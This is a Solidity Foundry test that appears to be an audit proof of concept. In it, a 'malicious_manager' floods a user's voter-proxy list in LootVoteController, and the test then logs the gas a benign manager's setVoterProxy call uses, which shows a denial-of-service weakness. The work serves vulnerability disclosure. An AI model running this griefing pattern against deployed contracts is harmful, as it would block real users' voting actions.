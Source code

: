 ```javascript
        return UserLock(1,1708151785,604800, 19245756); // DUMMY VALUE AS THIS IS FOR TESTING PURPOSE ONLY.
    }

}


contract LootVoteControllerTest is Test {

    LootVoteController public controller;
    address public user;
    address public malicious_manager;
    address public benign_manager;
    HolyPalPower public _hPalPower;
    HolyPaladinToken public hPal;


    function setUp() public {
        hPal = new HolyPaladinToken();
        _hPalPower = new HolyPalPower(address(hPal)); 
        user = makeAddr("USER"); // Dummy user for testing.
        malicious_manager = makeAddr("MALICIOUS_MANAGER");
        benign_manager = makeAddr("BENIGN_MANAGER"); 
        controller = new LootVoteController(address(_hPalPower));


    }
    
    function test_DOSinSetVoterProxy() public {
        vm.startPrank(user);
        controller.approveProxyManager(benign_manager);
        controller.approveProxyManager(malicious_manager);
        vm.stopPrank();

        vm.startPrank(malicious_manager);
        uint WEEK = 604800;
        uint starttimestamp = 1708151785;


        // uint256 userlocktime = ((1708151785 + 604800) / WEEK) * WEEK;
        
        for (uint i; i <= 1000; i++ ) {
            controller.setVoterProxy(user, address(uint160(i + 1)), 1, starttimestamp + 1);
        }

        vm.stopPrank();

        vm.warp(starttimestamp + 2);
        vm.startPrank(benign_manager);
        uint gasBefore = gasleft();

        controller.setVoterProxy(user,makeAddr("TEST"),1,block.timestamp + WEEK);
        
        uint gasAfter = gasleft();

        console.log("Gas Used for calling setVoterProxy: ", gasBefore - gasAfter);
        vm.stopPrank();
       
    }
}
```
